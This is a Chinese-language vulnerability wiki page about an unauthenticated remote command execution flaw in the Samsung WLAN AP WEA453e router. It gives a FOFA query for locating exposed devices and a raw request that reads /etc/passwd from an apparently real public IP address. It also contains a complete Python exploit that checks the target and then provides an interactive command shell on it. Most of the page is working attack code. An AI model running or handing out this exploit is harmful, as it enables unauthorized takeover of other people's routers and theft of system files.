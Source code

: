 # 三星 WLAN AP WEA453e路由器  远程命令执行漏洞

## 漏洞描述

三星 WLAN AP WEA453e路由器  存在远程命令执行漏洞，可在未授权的情况下执行任意命令获取服务器权限

## 漏洞影响

> [!NOTE]
>
> 三星 WLAN AP WEA453e路由器

## FOFA

> [!NOTE]
>
> title=="Samsung WLAN AP"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/sx-1.png)

请求包如下

```
POST /(download)/tmp/a.txt HTTP/1.1
Host: 175.199.182.152
Connection: close
Content-Length: 48

command1=shell:cat /etc/passwd| dd of=/tmp/a.txt
```

![](http://wikioss.peiqi.tech/vuln/sx-2.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 三星 WLAN AP WEA453e路由器                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:cat /etc/passwd| dd of=/tmp/a.txt"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "root" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在漏洞, 响应为:\n{}\033[0m".format(target_url, response.text))
            while True:
                cmd = str(input("\033[35mCmd >>> \033[0m"))
                POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/(download)/tmp/a.txt"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "command1=shell:{}| dd of=/tmp/a.txt".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[36m{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



![](http://wikioss.peiqi.tech/vuln/sx-3.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Samsung_WLAN_AP_wea453e_router_RCE

![](http://wikioss.peiqi.tech/vuln/sx-4.png)